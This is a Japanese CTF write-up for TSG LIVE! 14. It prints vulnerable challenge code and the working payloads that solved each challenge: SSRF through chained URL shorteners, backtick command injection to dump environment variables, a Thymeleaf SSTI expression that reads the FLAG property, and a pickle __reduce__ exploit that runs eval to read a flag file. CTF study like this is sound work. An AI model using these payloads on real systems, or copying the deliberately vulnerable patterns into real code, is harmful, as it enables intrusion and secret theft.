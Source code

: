 ```yaml
---
title: "TSG LIVE! 14 CTF writeup"
tags:
  - "CTF"
  - "writeup"
hidden: true
---
```


今回は東京大学TSGさんにお誘いいただきTPCとしてオンサイトで参加させていただきました。
TSG LIVE! 14は五月祭の企画として行われ、そのうちの１つのコンテンツとして２時間半でCTFが行われました。
その他にもコードゴルフや競プロなどがあるっぽいです。

アーカイブはこちら

https://www.youtube.com/watch?v=7Oxm6mKCIjw

TPC側は9人で参加し、自分はweb問を担当したのでそれを中心に書いていこうと思います。

## web

### Shortnm [8 solves]

> URL短縮サービスを作りました。

<details>
  <summary>問題コード</summary>

```python title=flag/main.py
from fastapi import FastAPI, Request
from fastapi.responses import PlainTextResponse

app = FastAPI()

@app.get("/flag")
async def get_flag(request: Request):
    host = request.headers.get("host", "")
    if host == "flag:45654" and request.url.port == 45654:
        return PlainTextResponse("TSGLIVE{REDACTED}")
    return PlainTextResponse("Access denied", status_code=403)

```

```python title=app/main.py
from fastapi import FastAPI, Query, Request, Response
from fastapi.responses import RedirectResponse, HTMLResponse
from fastapi.templating import Jinja2Templates
import redis
import httpx
import string, random, os

app = FastAPI()
r = redis.Redis(host=os.getenv("REDIS_HOST", "localhost"), port=6379, decode_responses=True)
templates = Jinja2Templates(directory="templates")

def generate_id(length=12):
    return ''.join(random.choices(string.ascii_letters + string.digits, k=length))

@app.get("/", response_class=HTMLResponse)
async def index(request: Request):
    return templates.TemplateResponse("index.html", {"request": request})

@app.get("/shorten")
async def shorten(request: Request, url: str = Query(...), format: str = Query(None)):
    short_id = generate_id()
    r.set(short_id, url)
    
    base_url = str(request.base_url).rstrip("/")
    short_url = f"{base_url}/{short_id}"
    if (format == "json"):
        return {"shorturl": short_url}
    else:
        return templates.TemplateResponse("result.html", {"request": request, "short_url": short_url})

@app.get("/shortem")
async def shortem(request: Request, url: str = Query(...), format: str = Query(None)):
    short_id = generate_id()
    url = 'http://is.gd/create.php?format=json&url='+url
    async with httpx.AsyncClient(follow_redirects=True) as client:
        response = await client.get(url)
    url = response.json()["shorturl"]
    r.set(short_id, url)
    
    base_url = str(request.base_url).rstrip("/")
    short_url = f"{base_url}/{short_id}"
    if (format == "json"):
        return {"shorturl": short_url}
    else:
        return templates.TemplateResponse("result.html", {"request": request, "short_url": short_url})

@app.get("/shortenm")
async def shortenm(url: str = Query(...)):
    short_id = generate_id() 
    url = 'http://localhost:8000/shortem?format=json&url='+url
    async with httpx.AsyncClient(follow_redirects=True) as client:
        response = await client.get(url)
    url = response.json()["shorturl"]
    r.set(short_id, url)
    
    short_id = generate_id() 
    async with httpx.AsyncClient(follow_redirects=True) as client:
        response = await client.get(url)    
    return Response(content=response.content,status_code=response.status_code,media_type=response.headers.get("content-type"))

@app.get("/{short_id}")
async def redirect(short_id: str):
    url = r.get(short_id)
    if url:
        return RedirectResponse(url)
    return HTMLResponse("URL not found", status_code=404)

```

</details>

短縮URLを作るサービス(短縮->target)、外部の短縮URLを使い作るサービス(短縮->is.gd->target)、２つ目に通したURLのレスポンスを表示するサービスが提供されている。
これを用いてローカルの`http://flag:45654/flag`を取得したい。

この問題に一番最初に取り掛かった。普通に３つ目のサービスに`http://flag:45654/flag`を入れると見れるんじゃねということで入力してみると`Internal Server Error`が発生。このURLを１つ目のものに通してできた`http://xx.xxx.xxx.xxx:xxxxx/1WmFoYkI93mj`を３つ目に入れてみても同じくエラーが発生。

ここでなぜだろうと唸っていると、チームメンバーがis.gdに目的のURLを入れると、次のようなエラーが発生することを特定してくれた。

```json
{
  "errorcode": 1,
  "errormessage": "Sorry, due to widespread abuse, we no longer allow linking to hosts by IP address."
}
```

要は変なホスト名だったりIPアドレスはダメみたい。なので、これをbypassするために適当な短縮URLサービス(今回は一番上に出てきたX.gd)[^short]を使用し、ターゲットのURLを短縮URLに変換し、それを３つ目に入れるとフラグ獲得。[^hisoutei]

[^short]: ホントは外部のサービスじゃなくてローカルで立ててngrokとかでやったほうがいいと思うんですが、時間がかかるので今回はこちらを採用しました。
[^hisoutei]: 実は想定解ではないらしい https://x.com/iwashiira/status/1926228844471534076

`TSGLIVE{Cr3a71ng_7h3_SSRF_pr0bl3m_wa5_d1ff1cul7}`

### perling_perler [20 solves]

> perl

<details>
  <summary>問題コード</summary>

```pl title=app/app.perl
#!/usr/bin/env perl
use Dancer2;

set template => 'template_toolkit';

get '/' => sub {
    return template 'index';
};

post '/echo' => sub {
    my $str = body_parameters->get('str');
    unless (defined $str) {
        return "No input provided";
    }

    if ($str =~ /[&;<>|\(\)\$\ ]/) {
        return "<h2>echo:</h2><pre>Invalid Input</pre><a href='/'>Back</a>";
    };

    my $output = `echo $str`;

    return "<h2>echo:</h2><pre>$output</pre><a href='/'>Back</a>";
};

start;

```

</details>

perlを使ったechoをするだけのサービス。明らかなOSコマンドインジェクションが存在している。環境変数にフラグはあります。

続いてこちらの問題を見てみる。前述の通りOSコマンドインジェクションだが、`&;<>|()$`と空白が使用できない。
この場合`` `ls` ``のようにすれば任意のコマンドが実行できそうです。
しかしながらスペースが使用できないので`cat /proc/self/environ`などは実行できません。ここで方針が浮かばないでいたところ[^osoi]チームメンバーによると`env`コマンドなるものが存在すると...
そのまま別のチームメンバーが解いてくれました。

[^osoi]: この問題だけ以上に問題サーバーが重かったです。なぜ...?

`` `env` ``と入力して環境変数を取得し、そこにフラグが書いてあります。

```txt
HOSTNAME=27f06e778cd4 HOME=/home/appuser PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin PWD=/app FLAG="TSGLIVE{5h3ll1ng_5h3ll3r}"
```

`TSGLIVE{5h3ll1ng_5h3ll3r}`

### iwi_deco_demo [3 solves]

> JavaのWebアプリはSpring Bootで書くといいらしいです。

<details>
  <summary>問題コード</summary>

```java title=src/main/java/iwi/demo/DemoController.java
package iwi.demo;

import java.time.LocalDateTime;
import java.time.format.DateTimeFormatter;

import org.apache.commons.lang3.StringUtils;
import org.springframework.web.bind.annotation.*;
import org.springframework.ui.Model;
import org.springframework.stereotype.Controller;

@Controller
public class DemoController {
  @GetMapping("/")
  public String home() {
    return "iwi_form";
  }

  @PostMapping("/profile")
  public String showProfile(@RequestParam("userId") String userId, Model model) {
    model.addAttribute("userId", userId);
    return "iwi_profile";
  }

  @GetMapping("/user/{userId}/settings")
  public String userSettings(@PathVariable String userId, Model model) {
    String lastLogin = LocalDateTime.now()
        .format(DateTimeFormatter.ofPattern("yyyy-MM-dd HH:mm:ss"));
    model.addAttribute("userId", userId);
    model.addAttribute("accountType", "Free");
    model.addAttribute("lastLogin", lastLogin);
    model.addAttribute("email", userId + "@example.com");
    model.addAttribute("description", "Please update your email.");
    return "iwi_user";
  }

  @PostMapping("/user/{userId}/settings")
  public String updateSettings(@PathVariable String userId,
      @RequestParam String email,
      @RequestParam String description,
      Model model) {
    String lastLogin = LocalDateTime.now()
        .format(DateTimeFormatter.ofPattern("yyyy-MM-dd HH:mm:ss"));

    if (StringUtils.isBlank(email)) {
      model.addAttribute("message", "Email must not be blank.");
      email = userId + "@example.com";
    }

    if (StringUtils.isBlank(description)) {
      model.addAttribute("message", "Description is required.");
      description = "Please update your email.";
    }

    model.addAttribute("userId", userId);
    model.addAttribute("accountType", "Free");
    model.addAttribute("lastLogin", lastLogin);

    model.addAttribute("email", email);
    model.addAttribute("description", description);
    model.addAttribute("message", "Updated your profile.");

    return "iwi_user";
  }
}

```

```html title=src/main/resources/templates/iwi_profile.html
<!DOCTYPE html>
<html xmlns:th="http://www.thymeleaf.org">

<head>
  <title>IWI-DECO Result</title>
  <style>
    body {
      font-family: sans-serif;
      max-width: 600px;
      margin: 2rem auto;
    }

    .profile-box {
      border: 1px solid #ccc;
      padding: 1rem;
      border-radius: 8px;
    }

    .profile-box h2 {
      margin-top: 0;
    }

    label {
      display: block;
      margin-top: 1rem;
    }
  </style>
</head>

<body>
  <h1>Hello, [[${userId}]]!</h1>
  <p>Click below to go to your settings:</p>
  <a th:href="@{'/user/__${userId}__/settings'}">Go to Settings</a>
</body>

</html>
```

```html title=src/main/resources/templates/iwi_user.html
<!DOCTYPE html>
<html xmlns:th="http://www.thymeleaf.org">

<head>
  <title>IWI-DECO</title>
  <style>
    body {
      font-family: sans-serif;
      max-width: 600px;
      margin: 2rem auto;
    }

    .profile-box {
      border: 1px solid #ccc;
      padding: 1rem;
      border-radius: 8px;
    }

    .profile-box h2 {
      margin-top: 0;
    }

    label {
      display: block;
      margin-top: 1rem;
    }

    input,
    textarea {
      width: 100%;
      padding: 0.5rem;
    }

    .readonly {
      background-color: #f5f5f5;
    }

    .msg {
      color: green;
      font-weight: bold;
    }
  </style>
</head>

<body>
  <h2>Settings for [[${userId}]]</h2>
  <div th:if="${message}" class="msg">[[${message}]]</div>

  <form th:action="@{/user/{id}/settings(id=${userId})}" method="post">
    <label>User ID:</label>
    <input type="text" th:value="${userId}" readonly class="readonly" />

    <label>Account Type:</label>
    <input type="text" th:value="${accountType}" readonly class="readonly" />

    <label>Last Login:</label>
    <input type="text" th:value="${lastLogin}" readonly class="readonly" />

    <label for="email">Email:</label>
    <input type="email" id="email" name="email" th:value="${email}" />

    <label for="description">Description:</label>
    <textarea id="description" name="description" rows="4" th:text="${description}"></textarea>

    <button type="submit" style="margin-top: 1rem;">Save</button>
  </form>
</body>

</html>

```

</details>

Javaのspring-bootを使用したサービスです。ユーザー名を入力したらそれのプロフィール画面に遷移でき、そこからプロフィール設定画面に遷移できます。

テンプレートを使用しているので、SSTIが濃厚かなと思いながら眺めていましたがJavaはあまり触ってこなかったので色々見ていました。

そこでチームメンバーからOGNLというキーワードが。調べてみるとspring-bootはThymeleaf[^Thymeleaf]を使用していて、そこでSSTIができそう。

[^Thymeleaf]: 読み方はタイムリーフらしい

https://blog.hamayanhamayan.com/entry/2021/12/20/215208

「Thymeleaf SSTI」で調べてみると、どうやらペイロードの一つに`'+${7*7}+'`というものがあるようで、これをサイトに入力しプロフィールから設定に遷移すると、userIdが`49`になりSSTIが成功しました。

https://github.blog/security/vulnerability-research/bypassing-ognl-sandboxes-for-fun-and-charities/

https://modzero.com/en/blog/spring_boot_ssti/

それよりも少し前にチームメンバーも同様のペイロードを確認していて、`"".getClass()`のようなやり方で環境変数を取得するペイロードをなんとか組み立てれないか試行錯誤しているようだったので、自分はThymeleafに環境変数を取得できる方法が存在していないかを調べてみることに。

「thymeleaf environment」で調べてみると、どうやら`${@environment.getProperty('property.key')}`のようなコードで環境変数を取得できるっぽい。[^hisoutei2]

[^hisoutei2]: おそらくこれは非想定解でもっと複雑なペイロードが期待されていたっぽい。 https://nanimokangaeteinai.hateblo.jp/entry/2025/05/24/153344#Web-428-iwi_deco_demo-3-solves

https://blog.tagbangers.co.jp/ja/2015/01/18/thymeleaf-environment-properties.html

```txt
'+${@environment.getProperty("FLAG")}+'
```

これをUser IDに入れて同様にユーザー設定まで行くとフラグを獲得。

`TSGLIVE{5pr1ng_b007_5571_w17h_apach3_lang3_by_PARZEL}`

## その後

自分の担当分野であるweb問題がとき終わってからは残っている問題であるcryptoとpwnを眺めていたが、全くわからず。[^muzukasii]

[^muzukasii]: そりゃ難しい問題だけが残っているので

そんな中チームメンバーがcyptoの問題に脆弱性を発見したようで。どうやらcryptoの後ろ２つの問題ではpickleが使用されていて、これを悪用することでフラグの値が抜けると！天才か？

<details>
  <summary>問題コード</summary>

```python title=problem.sage
#!/usr/bin/env sage 
from flag import flag

def sage_encode(obj):
    from sage.misc.persist import SagePickler
    from base64 import b64encode
    return b64encode(SagePickler.dumps(obj)).decode('ascii')

def sage_decode(enc_data):
    from base64 import b64decode
    import pickle
    return pickle.loads(b64decode(enc_data))

class Isogeny_decomp:
    def __init__(self,P,order_P = -1):
        if isinstance(P,list):
            for i in range(len(P)-1):
                assert P[i].codomain() == P[i+1].domain()
            self.isogenies = P[:]
            return
        if order_P == -1:
            order_P = P.order()
        self.isogenies = []
        for p,c in factor(order_P):
            for i in range(c):
                phi = P.curve().isogeny((order_P//p)*P)
                self.isogenies.append(phi)
                P = phi(P)
                order_P //= p
                if P == P.curve()((0,1,0)):
                    break
            if P == P.curve()((0,1,0)):
                break
    def __call__(self,P):
        for phi in self.isogenies:
            P = phi(P)
        return P
    def __mul__(self,other):
        assert other.isogenies[-1].codomain().j_invariant() == self.isogenies[0].domain().j_invariant()
        isom = other.isogenies[-1].codomain().isomorphism_to(self.isogenies[0].domain())
        return Isogeny_decomp(other.isogenies + [isom] + self.isogenies)
    def dual(self):
        ret = []
        for phi in self.isogenies:
            ret.append(phi.dual())
        ret.reverse()
        return Isogeny_decomp(ret)
    def domain(self):
        return self.isogenies[0].domain()
    def codomain(self):
        return self.isogenies[-1].codomain()

#SIKEp434
e2 = 0xD8
e3 = 0x89
p = 2**e2*3**e3-1
R.<x> = GF(p)[]
k.<i> = GF(p**2,modulus=x**2+1)

xQ30 = 0x00012E84_D7652558_E694BF84_C1FBDAAF_99B83B42_66C32EC6_5B10457B_CAF94C63_EB063681_E8B1E739_8C0B241C_19B9665F_DB9E1406_DA3D3846
xQ31 = 0x00000000
yQ30 = 0x00000000
yQ31 = 0x0000EBAA_A6C73127_1673BEEC_E467FD5E_D9CC29AB_564BDED7_BDEAA86D_D1E0FDDF_399EDCC9_B49C829E_F53C7D7A_35C3A074_5D73C424_FB4A5FD2
xP30 = 0x00008664_865EA7D8_16F03B31_E223C26D_406A2C6C_D0C3D667_466056AA_E85895EC_37368BFC_009DFAFC_B3D97E63_9F65E9E4_5F46573B_0637B7A9
xP31 = 0x00000000
yP30 = 0x00006AE5_15593E73_97609197_8DFBD70B_DA0DD6BC_AEEBFDD4_FB1E748D_DD9ED3FD_CF679726_C67A3B2C_C12B3980_5B32B612_E058A428_0764443B
yP31 = 0x00000000
xR30 = 0x0001CD28_597256D4_FFE7E002_E8787075_2A8F8A64_A1CC78B5_A2122074_783F51B4_FDE90E89_C48ED91A_8F4A0CCB_ACBFA7F5_1A89CE51_8A52B76C
xR31 = 0x00014707_3290D78D_D0CC8420_B1188187_D1A49DBF_A24F26AA_D46B2D9B_B547DBB6_F63A760E_CB0C2B20_BE52FB77_BD2776C3_D14BCBC4_04736AE4


xP3 = xP30+xP31*i
xQ3 = xQ30+xQ31*i
xR3 = xR30+xR31*i
yP3 = yP30+yP31*i
yQ3 = yQ30+yQ31*i

ec_start = EllipticCurve(k,[0,6,0,1,0])
P3 = ec_start((xP3,yP3))
Q3 = ec_start((xQ3,yQ3))

import secrets
sk3 = int(secrets.randbelow(int(3)**e3))
sp3 = P3+sk3*Q3

isogeny = Isogeny_decomp(sp3,3**e3)
E1 = isogeny.codomain()
import sys
print(E1,file=sys.stderr)

P = sage_decode(input("Enter a point: "))
print(sage_encode(isogeny(P).xy()))
P = sage_decode(input("Enter a next point: "))
print(sage_encode(isogeny(P).xy()))

user_sk = int(input("Enter your answer: "))
if user_sk == sk3:
    print("Correct")
    print(flag)
else:
    print("Incorrect")

```

</details>

なので実際にやってみる。pickleのexploitを用意し、

```python
import base64
import pickle

class Exploit:
  def __reduce__(self):
    return (
      eval,
      ("dict(print(open('./flag.py').read()),)",)
    )

data = base64.b64encode(pickle.dumps(Exploit())).decode('utf8')
print(f"data: {data}")
```

これを実行すると、

![実行結果](../../images/ctf/tsg-live-14/hisoutei3.png "実行結果")

フラグが取れてしまいました。web人間としてはこれは気づきたかった... 悔しい...

## まとめ

![リザルト画像](../../images/ctf/tsg-live-14/result.png "リザルト画像")

CTF初めて数ヶ月、初めてオンサイトのCTFを経験しましたが、わいわいできて非常に楽しかったです。招待していただいたTSG様と、誘っていただいたチームメンバーに感謝！
イベントの結果としてはTSGに勝利し、3988ptで全体では２位という結果でした。１つでもフラグ取れれば良いかなーと思ってましたが２つも取れて結果に寄与できて良かったです。

終了後はメンバーと五月祭を回ったりしました。弊学とは違うところが多く新鮮でした。そして初対面の人とたくさん話せて非常に良かったです。

<blockquote class="twitter-tweet"><p lang="ja" dir="ltr">めん <a href="https://t.co/LokMHPEOOf">pic.twitter.com/LokMHPEOOf</a></p>&mdash; kasi (@kq5y__) <a href="https://twitter.com/kq5y__/status/1926222996248653873?ref_src=twsrc%5Etfw">May 24, 2025</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>
